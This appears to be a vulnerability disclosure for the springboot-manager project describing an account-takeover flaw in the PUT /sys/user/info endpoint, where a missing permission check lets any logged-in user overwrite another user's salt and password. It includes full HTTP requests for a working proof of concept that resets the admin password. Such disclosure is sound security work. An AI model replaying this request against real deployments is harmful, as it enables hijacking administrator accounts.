







## Vulnerability Description

springboot-manager (master branch) contains an arbitrary account takeover vulnerability in the "Organization Module – User Management" feature. The `UserController#updateUserInfoById` method (`PUT /sys/user/info`) is not protected by any permission-check annotation (such as `@SaCheckPermission`), so it can be invoked by any authenticated user. The `UserServiceImpl#updateUserInfoMy` method it calls directly writes the `id`, `salt` and `password` fields supplied in the request body to the database, without verifying whether the `id` belongs to the currently logged-in user and without whitelist filtering for sensitive fields such as `salt` and `password`. When calculating the password hash, the server uses the salt of the currently logged-in user rather than the salt of the target user. An attacker only needs to change the `id` in the request body to the target user (e.g. `admin`, id=1), set `salt` to the attacker's own salt and `password` to any new plaintext password. This overwrites the target user's salt and password hash, allowing the attacker to log into the target account with the new password. This vulnerability allows any authenticated user to take over any account in the system, including the super administrator.

Gitee：https://gitee.com/zwens/springboot-manager

GitHub：https://github.com/aitangbao/springboot-manager

## Vulnerability Analysis

com.company.project.controller.UserController#updateUserInfoById



com.company.project.service.impl.UserServiceImpl#updateUserInfoMy(SysUser vo)



Call Chain

```
UserController#updateUserInfoById(vo)
  └─ UserServiceImpl#updateUserInfoMy(vo)
       ├─ sysUserMapper.selectById(logged-in user id)      ← Step 1: fetch logged-in user's record
       ├─ PasswordUtils.encode(vo.password, salt)          ← Step 2: compute password hash
       ├─ vo.setUpdateId(logged-in user id)                ← Step 3: set update operator id
       └─ sysUserMapper.updateById(vo)                     ← Step 4: write to DB (final step, IDOR point)
```

## Vulnerability Reproduction

**1. Log in with a low-privilege account**

Visit the login page of the springboot-manager system at http://localhost:8080/manager/, log in using the low-privilege account `test` with password `123456`. After successful login, obtain the Sa-Token credential of this account: `satoken: 2a11ce13-7aac-435f-91ee-89667aa591a8`.






Login Request

```
POST /manager/sys/user/login HTTP/1.1
Host: localhost:8080
Content-Length: 54
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/manager/index/login
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=CCD30B4D76C7E63755769E2A3156C87E; JSESSIONID=AA4726828E91576B349D792C22D26E1F
Connection: keep-alive

{"username":"test","password":"123456","captcha":"11"}
```

**2. Locate the function and observe the traffic**

Since the front-end does not expose the entry for "modifying other users' passwords" to low-privilege accounts, we directly use Burp Suite to intercept or construct requests for the target interface.

An update user information request was observed at `PUT /sys/user/info`. The JSON request body contains sensitive fields such as `id`, `salt`, and `password`, for example: `{"id":"1","salt":"3808c9192f354f3fa94e","password":"Hacker@123"}`.

The `id` can be arbitrarily specified as the target account (e.g., admin with id=1). The `salt` may be set to the salt value of the currently logged‑in account, and `password` accepts any plaintext new password directly. The interface implements neither permission verification nor ownership validation. The server uses the salt of the current login user to compute an MD5 hash of the plaintext password, then overwrites and writes the salt and password hash of the target user into the `sys_user` table, completing the password tampering.

**3. Construct the Payload and Verify the Vulnerability**

Send a GET request to `/manager/sys/user` with the Satoken `2a11ce13-7aac-435f-91ee-89667aa591a8`, and retrieve the salt of the current account `3808c9192f354f3fa94e` from the response.



Log in with the low-privilege account `test` to obtain the satoken: `2a11ce13-7aac-435f-91ee-89667aa591a8`. First, invoke `GET /sys/user` to fetch the salt of the current account: `3808c9192f354f3fa94e`. Then manually construct a `PUT /sys/user/info` request, set `id` to the target administrator account `1`, `salt` to the salt of the current low-privilege account `3808c9192f354f3fa94e`, and `password` to any arbitrary plaintext new password `Hacker@123`:




```
PUT /manager/sys/user/info HTTP/1.1
Host: localhost:8080
Content-Type: application/json
satoken: 2a11ce13-7aac-435f-91ee-89667aa591a8
Content-Length: 81

{
  "id": "1",
  "salt": "3808c9192f354f3fa94e",
  "password": "Hacker@123"
}
```

Then log into the system using the administrator account `admin` and the new password `Hacker@123` by sending a `POST /sys/user/login` request. The response returned:

{"code":0,"data":{"accessToken":"","id":"1","list":"","phone":"13888888888","username":"admin"},"msg":"操作成功"}


